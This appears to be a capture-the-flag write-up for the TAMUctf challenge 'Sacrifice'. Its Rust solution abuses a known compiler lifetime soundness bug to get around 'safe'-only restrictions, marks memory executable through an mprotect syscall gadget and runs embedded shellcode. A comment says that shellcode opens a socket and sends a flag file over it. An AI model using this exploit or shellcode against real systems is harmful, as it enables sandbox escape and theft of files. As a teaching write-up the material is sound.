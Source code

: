 # Sacrifice
## Description
One of the TAMUctf devs committed some heinous crimes with `unsafe`, so Ferris cast our poor dev into UB jail. The almighty crab's ire can only be appeased with an offering of the finest, 110% safe, non-GMO Rust code -- can you make a worthy sacrifice and save our dev?

## solution

1. pain
2. https://github.com/rust-lang/rust/issues/25860
3. haha ub go brr

```rust
static UNIT: &'static &'static () = &&();

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T { v }

fn lmao<'a, T>(x: &'a T) -> &'static T {
    let f: fn(_, &'a T) -> &'static T = foo;
    f(UNIT, x)
}


fn valid(a: usize, b: usize, c:u32) {}

fn make_funny_ref() -> &'static &'static fn(usize, usize, u32) {
    let r = &(valid as fn(usize, usize, u32));
    lmao(&r)
}

fn wrap_mprotect() {
    let x= 0xc3050f0000000ab8usize;
}

fn pwn(func: &'static &fn(usize, usize, u32), target: usize, shellcode: usize) {
    let r = &target;
    func(shellcode,0x1000,7);
}

// open socket 127.0.0.1:4444 and copy /sacrifice/flag.txt to it
static SHELLCODE: [u8; 116] = [106,41,88,106,2,95,106,1,94,153,15,5,72,137,197,72,184,1,1,1,1,1,1,1,2,80,72,184,3,1,16,93,126,1,1,3,72,49,4,36,106,42,88,72,137,239,106,16,90,72,137,230,15,5,104,117,121,117,1,129,52,36,1,1,1,1,72,184,99,101,47,102,108,97,103,46,80,72,184,47,115,97,99,114,105,102,105,80,106,2,88,72,137,231,49,246,15,5,65,186,255,255,255,127,72,137,198,106,40,88,72,137,239,153,15,5];
pub fn main() {
    let shellcode = &SHELLCODE as *const _  as usize;
    let real_mprotect = wrap_mprotect as fn() as *const ()  as usize + 3;
    let valid_ref = make_funny_ref();
    pwn(valid_ref, real_mprotect, shellcode >> 12 << 12); //
    pwn(valid_ref, shellcode, 0);
}
```

4. survive being executed for terrible writeup